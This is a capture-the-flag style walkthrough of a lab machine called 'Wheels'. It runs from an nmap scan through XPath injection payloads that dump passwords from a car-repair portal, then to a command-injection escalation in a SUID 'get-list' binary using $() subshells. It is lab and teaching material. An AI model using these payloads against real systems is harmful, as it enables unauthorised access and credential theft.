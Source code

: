 # Wheels

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.202
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 11:18 +08
Nmap scan report for 192.168.157.202
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can proxy traffic through Burpsuite.&#x20;

### Web Enum --> XPath Injection

The website is for a car repair service:

<figure><img src="../../../.gitbook/assets/image (818).png" alt=""><figcaption></figcaption></figure>

There's an employee portal and a register page. When I try to register a user and access the portal, we are denied access. I tried to brute force the admin credentials, but they don't work.

At the bottom of the page, we can find an email:

<figure><img src="../../../.gitbook/assets/image (3738).png" alt=""><figcaption></figcaption></figure>

I tried to register an `administrator` user with this email, and it worked in showing us the Employee Portal.&#x20;

<figure><img src="../../../.gitbook/assets/image (3140).png" alt=""><figcaption></figcaption></figure>

If we submit a query, we are returned information in this manner:

<pre class="language-markup"><code class="lang-markup"><strong>&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
</strong>	&#x3C;td>1&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>bob&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>2&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>alice&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>3&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>john&#x3C;/b>&#x3C;/td>

&#x3C;/tr>
</code></pre>

I tried to append a `'` character to the query, and received an XML error:

<figure><img src="../../../.gitbook/assets/image (3199).png" alt=""><figcaption></figcaption></figure>

We can try XPath injection since it seems to load `xpath()`. I tested all forms of XPath Injection and tried to dump passwords, and eventually this payload worked:

```
http://192.168.157.202/portal.php?work=car%27)]%20|%20//password%00&action=search
```

<figure><img src="../../../.gitbook/assets/image (2779).png" alt=""><figcaption></figcaption></figure>

I also found some users when testing payloads:

```
http://192.168.157.202/portal.php?work=car%27)%20or%201=1%20or%20(%27&action=search
```

<figure><img src="../../../.gitbook/assets/image (2959).png" alt=""><figcaption></figcaption></figure>

The first password works for `bob`:

<figure><img src="../../../.gitbook/assets/image (1610).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Arbitrary Read

I searched for SUID binaries and the first result stood out:

{% code overflow="wrap" %}
```
bob@wheels:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get-list

bob@wheels:~$ file /opt/get-list
/opt/get-list: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a037b8d92b88ad94e965feeeddd13c03f924f0a7, for GNU/Linux 3.2.0, not stripped

bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: employees
Opening File....

bob
alice
john
dan
alex
selene
```
{% endcode %}

I used `ltrace` to see what calls were being made.&#x20;

```
bob@wheels:~$ ltrace /opt/get-list
puts("\n"

)                                                             = 2
printf("Which List do you want to open? "...)                          = 55
fgets(Which List do you want to open? [customers/employees]: customers
"customers\n", 100, 0x7f394d6c3980)                              = 0x7ffeb9de0730
strchr("customers\n", ';')                                             = nil
strchr("customers\n", '|')                                             = nil
strchr("customers\n", '&')                                             = nil
strstr("customers\n", "customers")                                     = "customers\n"
puts("Opening File....\n"Opening File....

)                                             = 18
snprintf("/bin/cat /root/details/customers"..., 200, "/bin/cat /root/details/%s", "customers\n") = 33
open("/dev/null", 1025, 027167403201)                                  = 3
dup(2, 0x5597d7042088, 1025, 0)                                        = 4
dup2(3, 2)                                                             = 2
geteuid()                                                              = 1000
setuid(1000)                                                           = 0
system("/bin/cat /root/details/customers"... <no return ...>
```

It uses seems that our string is directly passed into a `cat` command. There's also a check for special characters before executing. This doesn't protect against subshells using `$()`, and it only checks for whether `customers` or `employees` are substrings within the string we submit.

This is easily exploitable for a `root` shell:

<figure><img src="../../../.gitbook/assets/image (2772).png" alt=""><figcaption></figcaption></figure>
